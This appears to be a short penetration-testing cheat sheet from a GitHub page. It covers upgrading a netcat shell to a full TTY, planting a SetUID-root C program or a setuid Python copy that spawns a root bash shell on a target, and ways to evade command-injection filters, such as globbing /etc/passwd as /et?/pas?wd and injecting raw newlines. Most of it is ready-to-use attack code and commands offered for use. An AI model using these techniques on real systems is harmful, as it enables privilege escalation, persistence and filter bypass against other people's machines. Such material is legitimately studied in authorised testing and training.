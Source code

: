 # Techniques

## TTY Upgrade

Given a plain shell (via `netcat` or the like), this technique will convert the shell to a full TTY with support for signals, command history, and more. Particularly useful for preventing you from killing your shell when you do Ctrl-C as part of your muscle memory. [Source](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo
fg
reset
export SHELL=bash
export TERM=xterm-256color
stty -a
stty rows <num> columns <cols>
```

## SetUID 

### C Version

If you need a basic C program that you can set the SetUID bit, use this:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void) { setuid(0); setgid(0); system("/bin/bash"); }
```

Compile on the target, set SetUID, and run. Can likely compile locally and move to target if no compiler available

```bash
gcc -o setuid setuid.c && chown root:root setuid && chmod u+s setuid && ls -la setuid && ./setuid
```

### Python Version

If compiling a C program is annoying, an alternative method is to SetUID the python executable. Rather than using the system one, it's better to copy the python executable on the system somewhere else, and then SetUID your temporary copy. Then, run the following:

```python
python -c 'import os,pty;os.setuid(0);os.setgid(0);pty.spawn("/bin/bash");'
```

## Command Injection Filter Evasion

If filters are stopping things like `/bin/cat` `/etc/passwd`, you can use bash expressions like `/bi?/ca?` `/et?/pas?wd` instead.

You can use `\`command\`` or `$(command)` to help with injection.

If you can't use `; & |` as separators, try injecting a raw `\n` instead (Burp helps).
